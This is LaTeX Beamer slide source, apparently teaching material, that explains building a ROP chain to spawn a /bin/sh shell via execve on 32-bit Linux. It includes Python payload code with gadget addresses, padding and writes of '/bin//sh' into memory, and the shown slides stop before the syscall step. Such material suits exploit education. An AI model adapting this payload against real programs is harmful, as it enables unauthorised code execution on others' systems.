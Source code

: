 \documentclass[11pt]{beamer}
\begin{document}
\subsection{General approach}
\begin{frame}[fragile]
    \frametitle{Spawning a shell: Approach}
    \begin{itemize}
        \item Using ROPgadget we can find our desired gadgets
        \item Lets say we want to execute a shell using execve, for that we need to accomplish the following goals
        \begin{enumerate}
            \item write /bin/sh into memory (at the data segment)
            \item init systemcall number (11 in eax)
            \item init systemcall arguments (address of /bin//sh in ebx, args and env in ecx and edx)
            \item call systemcall
        \end{enumerate}
        \item All of this has to be done using Bytes that are not \Verb+\\0x00+ because thats the character used for identifying the end of a string.
    \end{itemize}
\end{frame}
\subsection{Generating the payload}
\begin{frame}[fragile]
    \frametitle{Generating the payload, defining all gadgets}
    \begin{lstlisting}[style=code, language=python]
from struct import pack
import os
data = 0x080e3020
xor_eax_eax = 0x0804e234 # xor eax, eax ; ret
pop_eax = 0x080ac96a # pop eax ; ret
pop_ebx = 0x08049022 # pop ebx ; ret
pop_ecx = 0x0807f9a3 # pop ecx ; ret
pop_edx = 0x0807f133 # pop edx ; and eax, 0xe850fffd ; ret
inc_eax = 0x0809fc6e # inc eax ; ret
int_80 = 0x080499c2 # int 0x80
mov_edx_eax = 0x0804eed2 # mov dword ptr [edx], eax ; ret
filler = 0x11111111
# Padding goes here
p = bytes('AAAAAAAABBBB', 'ascii')
    \end{lstlisting}
\end{frame}

\begin{frame}[fragile]
    \frametitle{Generating the payload, writing /bin//sh}
    \begin{lstlisting}[style=code, language=python]
p += pack('<I', pop_edx) # write address of .data into edx
p += pack('<I', data)
p += pack('<I', pop_eax) # write /bin into eax
p += bytes('/bin', 'ascii')
p += pack('<I', mov_edx_eax) # mov to .data
p += pack('<I', pop_edx) # address of .data + 4 into edx
p += pack('<I', data + 4)
p += pack('<I', pop_eax) # //sh into eax
p += bytes('//sh', 'ascii')
p += pack('<I', mov_edx_eax) # mov to .data
    \end{lstlisting}
\end{frame}
\end{document}
